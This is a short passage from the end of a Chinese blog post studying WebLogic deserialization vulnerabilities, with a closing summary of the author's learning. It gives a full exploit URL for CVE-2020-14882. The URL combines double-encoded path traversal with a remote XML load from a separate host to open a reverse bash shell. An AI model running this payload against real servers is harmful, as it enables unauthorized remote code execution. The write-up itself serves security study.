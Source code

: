 访问下面 url 即可进行 shell 反弹  
`http://10.140.32.159:33401/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://172.24.0.1:8080/cve-2020-14882-reverse-bash.xml")`

参考：[https://cert.360.cn/report/detail?id=a95c049c576af8d0e56ae14fad6813f4](https://cert.360.cn/report/detail?id=a95c049c576af8d0e56ae14fad6813f4)

....暂时写到这吧

## 4\. 总结

对于反序列化漏洞而言，原理都是相通的，从老洞开始研究不仅能够掌握更多基础原理，还能够体会防御和绕过的趣味。每次回过头来分析一编，总能有不一样的体会与理解。作为初学者，时间有限...近两年出来的洞只看了大概，还没来的及详细分析。关于 Weblogic 远不止这些，希望能够探测更多关于 Weblogic 底层的东西。

打赏

